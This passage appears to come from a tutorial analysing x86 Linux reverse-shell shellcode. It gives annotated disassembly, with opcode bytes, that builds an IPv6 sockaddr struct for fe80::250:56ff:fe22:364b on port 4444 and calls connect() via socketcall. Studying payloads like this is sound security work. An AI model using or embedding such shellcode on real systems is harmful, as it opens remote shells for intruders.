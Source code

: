 <figcaption class="figure-caption">I don't know exactly why the author pushed the DWORD `0x00000000` two times, thus making the struct 32-bytes long, when the size should be only 28 bytes. If you know, please contact me.</figcaption>

```nasm
                            ; bytes 24-27 of the sockaddr_in6 struct:
                            ;   value of sin6_scope_id: 0x00000000
00000019  53                push ebx

                            ; bytes 8-23 of the sockaddr_in6 struct:
                            ;    value of sin6_addr: fe80::250:56ff:fe22:364b (big-endian)
0000001A  68FE22364B        push dword 0x4b3622fe
0000001F  68025056FF        push dword 0xff565002
00000024  6A00              push byte +0x0
00000026  68FE800000        push dword 0x80fe
```

<figcaption class="figure-caption">Bytes in `big-endian` order representing the IPv6 address: `fe80::250:56ff:fe22:364b`</figcaption>

```nasm
                            ; bytes 4-7 of the sockaddr_in6 struct:
                            ;   value of sin6_flowinfo: 0x00000000
0000002B  53                push ebx

                            ; bytes 2-3 of the sockaddr_in6 struct:
                            ;   value of sin6_port: port 4444 in big-endian order
0000002C  6668115C          push word 0x5c11

                            ; bytes 0-1 of the sockaddr_in6 struct:
                            ;   value of sin6_family: AF_INET6
00000030  66680A00          push word 0xa

                            ; save the pointer to the sockaddr_in6 struct into ECX
00000034  89E1              mov ecx,esp

                            ; 3rd argument of connect():
                            ;   size of the sockaddr_in6 struct (28 bytes): 
00000036  6A1C              push byte +0x1c

                            ; 2nd argument of connect():
                            ;   pointer to the sockaddr_in6 struct
00000038  51                push ecx

                            ; 1st argument of connect():
                            ;   File Descriptor of the client socket
00000039  56                push esi

                            ; clear registers
0000003A  31DB              xor ebx,ebx
0000003C  31C0              xor eax,eax

                            ; socketcall() syscall
0000003E  B066              mov al,0x66

                            ; 1st argument of socketcall():
                            ;   SYS_CONNECT call
00000040  B303              mov bl,0x3

                            ; 2nd argument of socketcall():
                            ;   pointer to the arguments of SYS_CONNECT
00000042  89E1              mov ecx,esp

                            ; call socketcall() syscall, in turn calling connect(...)
00000044  CD80              int 0x80
```
